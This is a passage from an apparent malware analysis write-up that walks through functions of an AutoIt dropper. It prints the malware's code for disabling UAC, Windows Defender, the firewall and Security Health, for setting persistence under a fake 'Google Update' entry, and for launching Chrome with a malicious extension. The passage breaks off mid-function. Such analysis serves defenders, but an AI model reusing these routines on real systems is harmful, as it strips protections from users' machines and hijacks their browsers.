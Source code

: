 <br> It use `setacl` to set the owner of the folder to `SYSTEM` to avoid being deleted
<br> But you can always change the folder owner by using `Security` tab in `Folder Properties`
#### p) 14th function: write registry to disable antiviruses and change the Chrome Update
```autoit
Func main14() ; Write registry to disable antiviruses and change the Chrome Update
	RegWrite("HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\Associations", "LowRiskFileTypes", "REG_SZ", ".exe")
	RegWrite("HKLM\Software\Microsoft\Windows\CurrentVersion\Run", "Google Update", "REG_SZ", $virusdir & "\app.exe")
	RegWrite("HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System", "EnableLUA", "REG_DWORD", 0)
	RegWrite("HKLM\Software\Policies\Microsoft\Windows Defender", "DisableAntiSpyware", "REG_DWORD", 1)
	RegWrite("HKLM\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy\StandardProfile", "EnableFirewall", "REG_DWORD", 0)
	RegWrite("HKLM\SYSTEM\CurrentControlSet\Services\SharedAccess\Parameters\FirewallPolicy\StandardProfile", "DisableNotifications", "REG_DWORD", 1)
	RegWrite("HKLM\SYSTEM\CurrentControlSet\Services\SecurityHealthService", "Start", "REG_DWORD", 200)
	RegDelete("HKLM\Software\Microsoft\Windows\CurrentVersion\Run", "SecurityHealth")
	main15()
EndFunc
```
<br> It uses `RegWrite` to modify the system settings:
- Set the `.exe` extension to Low Risk File (to avoid scanning and warnings)
- Change the Google Chrome Updater to it malicious `app.exe`. That Google Chrome Updater auto start with Windows.
- It disable UAC (User Account Control) to avoid being asked for Administrator operation comfirmation. After modify this, the system logout.
- It disable Windows Defender
- Disable Windows Firewall to connect to its server
- Disable Security Health Service - part of Windows Defender
- Delete Security Health Service from auto start apps.
#### q) 15th function: Execute chrome with malware extension
```autoit
Func main15() ; Insert malware extension to Chrome
	ShellExecute("chrome.exe", "--enable-automation --restore-last-session --disable-blink-features=AutomationControlled --load-extension=" & $virusdir, "", "", @SW_MAXIMIZE)
	main16()
	zlmsyuslmwzh()
EndFunc
```
<br> It load extension from the directory it created. After extract the archive, it has `manifest.json` and `background.js` to be loaded.
<br> We will talk about the extension later.
#### r) 16th function and the rest: Replace Chrome shortcut with command line to load the extension
```autoit
Func main16() ; Replace Chrome shortcut with malware extension command line
	Local $array2d[5][2] ; Setup an 2D array
	$array2d[0][0] = @AppDataDir & "\Microsoft\Internet Explorer\Quick Launch"
	$array2d[1][0] = @AppDataCommonDir & "\Microsoft\Internet Explorer\Quick Launch"
	$array2d[2][0] = @DesktopDir
	$array2d[3][0] = @ProgramsCommonDir
	$array2d[4][0] = @DesktopCommonDir
	$array2d[0][1] = 1
	$array2d[1][1] = 1
	$array2d[2][1] = 0
	$array2d[3][1] = 0
	$array2d[4][1] = 0
	For $counter = 0 To 4
```